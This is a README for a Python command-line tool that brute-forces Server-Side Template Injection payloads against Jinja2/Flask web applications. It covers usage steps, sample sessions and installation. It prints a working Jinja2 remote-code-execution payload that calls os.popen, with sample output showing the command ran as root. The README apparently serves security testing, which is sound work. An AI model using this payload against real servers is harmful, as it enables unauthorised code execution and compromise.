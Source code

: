 # 🍹 Ice-Ice-Tea-Ay!

**Ice-Ice-Tea-Ay** is a command-line tool written in Python to perform payload-based brute-force checks for **Server-Side Template Injection (SSTI)** vulnerabilities on Jinja2/Flask-based web applications.

---

## How it Works?
It works by injecting multiple crafted payloads and analyzing server responses to detect signs of SSTI, number evaluation, or even Remote Code Execution (RCE).

---
## Requirements
- pycurl
- requests

---

## Features

- Checks for **SSTI via numerical evaluation** (e.g., `{{64*64}}`)
- Detects **Remote Code Execution (RCE)** payloads (e.g., `{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}`)
- Multiple payload types: Jinja2, Freemarker, Velocity, Flask, etc.
- Supports custom POST body injection with a placeholder (`&x`)
- Uses `pycurl` for fast and raw HTTP requests

---
## How to use
First you need to find an input in targeted website. Then open Developer Tools, go to Network tab, and try to fill with something then submit it. Check for any endpoint that uses "POST" method inside "Header" tab. Go to the "Payload" tab (on the left side of "Header" tab), click "View Source", copy the payload and use the endpoint in the script.

This is an example of use:
```bash
> python3 ice-ice-tea-ay.py

Ice-Ice-Tea-Ay!
A Brute-Force Tool to check SSTI vulnerability on Jinja2/Flask-based web servers.

Please put the URL target here: http://localhost:5000/login
Insert a header body (place '&x' inside the body): username=admin&password=&x
1. Number eval check 
2. Remote Code Execution (RCE) check 
3. Check all possible code 
Choose a number: 3
```
If the tools success find the payload, the output will look like this:
```bash
Found One!
Payload: {{config.__class__.__init__.__globals__['os'].popen('id').read()}}
Response:

                <!doctype html>
                <h1 style="font-size:100px;" align="center">uid=0(root) gid=0(root) groups=0(root)     
</h1>
```
---
## Installation

```bash
git clone https://github.com/yourusername/ice-ice-tea-ay.git
cd ice-ice-tea-ay
pip install pycurl requests
```
